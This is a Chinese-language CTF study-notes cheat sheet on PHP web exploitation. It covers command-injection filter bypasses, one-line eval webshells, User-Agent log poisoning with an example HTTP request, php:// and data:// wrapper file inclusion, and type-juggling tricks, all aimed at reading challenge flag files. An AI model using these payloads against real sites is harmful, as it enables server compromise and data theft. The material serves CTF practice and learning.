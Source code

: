 # 笔记

<br><br>

## 杂笔记

<br>

* 在逆向(星号)((BYTE*)的时候用宏定义#define BYTE unsigned char即可正常使用

<br>

* system("tac flag.php")用来读取文件内容;

<br>

* ?c=system("tac%20fla(星号)")意思是c=system("tac flag");

<br>

### 在linux的shell里：
* ls /（查看所有目录)
* ls /home(进入home文件夹)
* cat /home/flag.txt(打开flag.txt)
* tac用法同上
* ls ../输出上一级目录的内容

<br><br>

## 命令绕过  

<br>

### 黑洞绕过：system($c." >/dev/null 2>&1");
* 它只会让分号后面的指令进入黑洞，所以这里直接绕过

* 双写分号绕过?c=tac f*;ls
* 双写&&绕过?c=tac f*%26%26ls（注：星号被绕过可以用问号）（[0-9]和%的过滤是不会过滤%26之类的）（）

* 带行号绕过?c=nl<fla''g.php%7C%7Cls(此方法可能要右键看源代码)

* 有$的情况下可以重命名flag.php成txt再直接访问:先执行?c=mv${IFS}fla?.php${IFS}a.txt%7C%7Cls 然后使用ls||ls看看有没有命名成功。成功后直接访问a.txt

* 其他注：?c=ls${IFS}/||ls查看根目录（ls /）

* ?c=cp${IFS}/fla?${IFS}/var/www/html/b.txt（将根目录（ls /）下的flag复制到可以直接在url的目录）





### 直接写php时：
#### 文件上传
* 经典一句话木马：<?php @eval($_POST[a]); ?>
* 短标签（过滤php）绕过：<?=eval($_POST[a]);?>（需要配合user.ini打开权限）
* ; 分号过滤：直接删除即可
* 过滤了（） ：使用tac
* 日志文件上传(用于过滤括号)：<?=include'/var/l'.'og/nginx/access.lo'.'g'?>,可以先访问url＋根目录，如果出现日志则包含成功.
* 非蚁剑连接：直接上传带有命令的图片马，访问马所在的目录

#### 过滤
* 过滤[ ]:<?=eval($_POST{a});?>(改成花括号)
* 过滤分号’；‘：<?=`cat ../flag*`?> <?=`tac ../f*`?> <?=`nl ../flag*`?>查看源码得flag
* 过滤括号：<?=`tac fl*`?>




<br>

### 直接eval()传参时：
* 特殊字符:"$""&"如果只是对c进行过滤，就可以通过包含另一个函数来绕过
* 做题前先看看对谁过滤，再看如何过滤
* c=include$_GET[1]?>&1=php://filter/read=convert.base64-encode/resource=flag.php
* c=include$_GET[1]?>&1=data://text/plain,<?php system("nl flag.php")?>
* c=$nice=include$_GET["url"]?>&url=php://filter/read=convert.base64-encode/resource=flag.php
* 仅括号
* c=echo highlight_file(next(array_reverse(scandir(pos(localeconv())))));
* c=eval(next(reset(get_defined_vars())));&1=;system("tac%20flag.php");
* c=show_source(next(array_reverse(scandir(pos(localeconv())))));
* c=highlight_file(next(array_reverse(scandir(dir))));
<br>

### 当include(c)时：直接使用协议绕过
* c=data://text/plain,<?php system('tac f*');?>
* ?u=php://filter/read=convert.base64-encode/resource=flag.php(任何打开文件，读取文件的操作都可以使用伪协议绕过)、
* ?filename=php://filter/convert.utf7.utf7/resource=flag.php
* php://filter/convert.iconv.utf8.utf16/resource=flag.php

<br>

#### php被过滤的时候:
* ?c=data://text/plain,<?=system("tac fla*")?>
* 注：include()只会处理<?php>里面的内容

<br>

#### $被过滤的时候:
* ?c=echo highlight_file(next(array_reverse(scandir(pos(localeconv())))));
* ?c=eval(next(reset(get_defined_vars())));&1=;system("tac%20flag.php");

<br>

#### 日志文件包含：（抓包改UA，在UA末尾加东西）（用于include）
* 如：
````
GET /?file=/var/log/nginx/access.log HTTP/1.1
Host: 4e9bb3c0-1021-427e-81a3-42e5e6e13c39.challenge.ctf.show
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0<?php eval($_GET[2]);?>       \\在这里改噢
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: UM_distinctid=17ffcdc88eb73a-022664ffe42c5b8-13676d4a-1fa400-17ffcdc88ec82c
Connection: close
````



<br>

* 可以直接命令执行即可也可以用webshell后门工具连接

* ?file=/var/log/nginx/access.log&2=system('ls /var/www/html');phpinfo();

* ?file=/var/log/nginx/access.log&2=system('tac /var/www/html/fl0g.php');phpinfo();


<br>

### 条件竞争漏洞：（相关：2023年梦极光线上赛web）（文件上传，文件包含等都能用）
- [条件竞争](https://www.freebuf.com/articles/web/275557.html)


<br><br>



## php特性绕过


<br>

### preg_match绕过:
* preg_match第二个参数为0时，会将0x开头当作十六进制,0开头当作八进制
* 多行绕过 php%0aPHP(用于多次preg_match)
* strpos($num, "0")意为开头不能为0，只需要加入%0a（换行）或%09（空格）即可绕过
#### 关于正则匹配preg_match(‘/^O:\d+/‘)的绕过的几种方法：
* 1.利用加号绕过（注意在url里传参时+要编码为%2B）直接在冒号和数字之间加上一个加号比如O:+4:"Demo":2:{s:10:" Demo file";s:8:"fl4g.php";}
* 2.利用数组对象绕过，如 serialize(array($a)); a为要反序列化的对象(序列化结果开头是a，不影响作为数组元素的$a的析构)。(没用过)

<br>

### 强弱比较绕过:

* 数组绕过：a[]=1&b[]=2
* md5撞库: 两个不用的明文各自经过MD5加密后，得到相等的hash值(多用于===)
* is_numeric()绕过:is_numeric()函数判断为数字时返回true，否则为false。如果数字为1234%00它就会判断为非数字，而在比较时这通常视为1234





<br>

### 其他总结
* 伪协议绕过:?u=php://filter/read=convert.base64-encode/resource=flag.php(任何打开文件，读取文件的操作都可以使用伪协议绕过)











